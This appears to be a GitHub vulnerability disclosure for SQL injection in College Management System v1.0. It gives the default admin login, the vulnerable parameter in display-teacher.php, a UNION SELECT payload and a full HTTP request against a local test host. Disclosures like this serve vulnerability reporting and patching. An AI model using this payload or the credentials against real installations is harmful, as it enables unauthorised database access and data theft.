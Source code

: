 # College Management System v1.0 by oretnom23 has SQL injection

vendors: https://code-projects.org/college-management-system-in-php-with-source-code/

The password for the backend login account is: admin@gmail.com/admin123*

Vulnerability File: /College_Management_System/admin/display-teacher.php?teacher_id=

Vulnerability location: /College_Management_System/admin/display-teacher.php?teacher_id=, id

[+] Payload: /College_Management_System/admin/display-teacher.php?teacher_id=-2%27%20union%20select%201,version(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32--+

```sql
GET /College_Management_System/admin/display-teacher.php?teacher_id=-2%27%20union%20select%201,version(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qgju0bcshgm305hone8pah7cnf
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/167042387-fee226a1-b577-4f6b-91fc-c8b2f3367d97.png)

![image](https://user-images.githubusercontent.com/54017627/167042339-1a077faf-e71c-43fa-aab8-954477bfbcc4.png)
